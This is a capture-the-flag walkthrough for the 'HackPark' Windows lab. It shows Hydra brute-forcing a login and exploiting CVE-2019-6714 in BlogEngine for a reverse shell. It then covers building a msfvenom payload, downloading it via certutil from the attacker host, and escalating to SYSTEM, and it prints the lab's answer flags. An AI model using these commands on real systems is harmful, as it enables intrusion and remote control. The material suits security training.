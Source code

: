 # HackPark

___

IP = `10.10.66.221`

## Task 1 - Deploy the vulnerable Windows machine

> Whats the name of the clown displayed on the homepage?

`pennywise`

## Task 2 - Using Hydra to brute-force a login

```
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 8.5
3389/tcp open  ssl/ms-wbt-server?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

> What request type is the Windows website login form using?

`POST`

`hydra -l <username> -P /usr/share/wordlists/<wordlist> <ip> http-post-form`

> Guess a username, choose a password wordlist and gain credentials to a user account!

`1qaz2wsx`

## Task 3 - Compromise the machine

> Now you have logged into the website, are you able to identify the version of the BlogEngine?

`3.3.6.0`

`curl -s http://10.10.66.221/ | tail -n 3 | head -n 1`

> What is the CVE?

`CVE-2019-6714`

```
Attacking Steps:

First, we set the TcpClient address and port within the method beloto 
our attack host, who has a reverse tcp listener waiting for connection.
Next, we upload this file through the file manager.  In the current (3.3.6) version of BlogEngine, this is done by editing a post and clickinon the icon that looks like an open file in the toolbar.  Note that thifile must be uploaded as PostView.ascx. Once uploaded, the file will be in the /App_Data/files directory off of the document root. The admin pagthat
allows upload is:

http://10.10.66.221/admin/app/editor/editpost.cshtml

Finally, the vulnerability is triggered by accessing the base URfor the blog with a theme override specified like so:

http://10.10.66.221/?theme=../../App_Data/files
 
```

```
# nc -lnvp 4545
listening on [any] 4545 ...
connect to [10.4.96.175] from (UNKNOWN) [10.10.66.221] 49301
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
whoami
c:\windows\system32\inetsrv>whoami
iis apppool\blog
```

> Who is the webserver running as?

`iis apppool\blog`

## Task 4 - Windows Privilege Escalation

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.4.96.175 LPORT=8989 -f exe > reverse.exe`

```
c:\Users\Public\Downloads>
Certutil.exe -urlcache -f http://10.4.96.175:8000/reverse.exe reverse.exe
c:\Users\Public\Downloads>Certutil.exe -urlcache -f http://10.4.96.175:8000/reverse.exe reverse.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

c:\Users\Public\Downloads>
```

```
c:\Users\Public\Downloads>dir
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Directory of c:\Users\Public\Downloads
09/26/2024  10:50 AM    <DIR>          .
09/26/2024  10:50 AM    <DIR>          ..
09/26/2024  10:50 AM            73,802 reverse.exe
               1 File(s)         73,802 bytes
               2 Dir(s)  39,125,434,368 bytes free
c:\Users\Public\Downloads>reverse.exe

```

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.4.96.175:8989

[*] Sending stage (176198 bytes) to 10.10.66.221
[*] Meterpreter session 1 opened (10.4.96.175:8989 -> 10.10.66.221:49332) at 2024-09-26 18:00:05 +0000

meterpreter >
```

```
meterpreter > sysinfo
Computer        : HACKPARK
OS              : Windows Server 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```

`1428  672   WService.exe    x86   0        NT AUTHORITY\SYSTEM      C:\PROGRA~2\SYSTEM~1\WService.exe`

```
meterpreter > migrate 1428
[*] Migrating from 2820 to 1428...
[*] Migration completed successfully.
meterpreter > getsystem
[-] Already running as SYSTEM
meterpreter >
```

> What is the OS version of this windows machine?

`Windows 2012 R2 (6.3 Build 9600)`

> What is the name of the abnormal service running?

`WindowsScheduler`

> What is the name of the binary you're supposed to exploit? 

`Message.exe`

> What is the user flag (on Jeffs Desktop)?

`759bd8af507517bcfaede78a21a73e39`

> What is the root flag?

`7e13d97f05f7ceb9881a3eb3d78d3e72`

```
C:\Users\jeff\Desktop>type user.txt
type user.txt
759bd8af507517bcfaede78a21a73e39
C:\Users\jeff\Desktop>
```

```
C:\Users\Administrator\Desktop>type root.txt
type root.txt
7e13d97f05f7ceb9881a3eb3d78d3e72
C:\Users\Administrator\Desktop>
```

## Task 5 - Privilege Escalation Without Metasploit

> Using winPeas, what was the Original Install time? (This is date and time)

`8/3/2019, 10:43:23 AM`

```
C:\Program Files (x86)\SystemScheduler>systeminfo
systeminfo

Host Name:                 HACKPARK
--SNIP--
Original Install Date:     8/3/2019, 10:43:23 AM
System Boot Time:          9/26/2024, 9:32:04 AM
--SNIP--
```